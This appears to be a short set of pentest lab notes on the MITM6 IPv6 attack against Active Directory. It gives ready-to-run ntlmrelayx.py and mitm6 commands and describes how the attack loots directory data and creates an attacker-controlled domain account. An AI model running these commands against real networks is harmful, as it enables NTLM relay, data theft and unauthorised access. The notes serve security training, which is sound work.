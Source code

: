 # IPv6 Attack

**MITM6**:

MITM6 attack is the go to attack for internal pentesting an organization. This attack requires on access to the system. MITM6 uses NTLM relay as well to pass the authentication. You can only run this attack for 5-10 min blocks. This WILL break DNS things and stuff on the network.

```jsx
ntlmrelayx.py -6 -t ldaps://domaincontrollerIP -wh fakewpad.marvel.local -l lootme
```

-6, IPv6

-t, Target

-wh, Fakepad proxy

-l, loot directory and using lootme will just name the file

AFTER you run the above command you can proceed and run the below command

```jsx
sudo mitm6 -d <domain name>
```

Wait for traffic to generate such as reboots of computers or users logging into the devices.

For example if a device is rebooted on the network the MITM6 will use itself as the DNS server and loot the directory of the machine and pull files to your kali box that have lists of domain admins, domain groups, computer names, domain admins by security group, etc.

If an admin account logs in while the MITM6 tool is running and the account logging in is NOT apart of the protected groups and can be delegated, the tool will create the attacker a username and password to login to AD with, this account is in the file text under where the NTLM relay tool is running.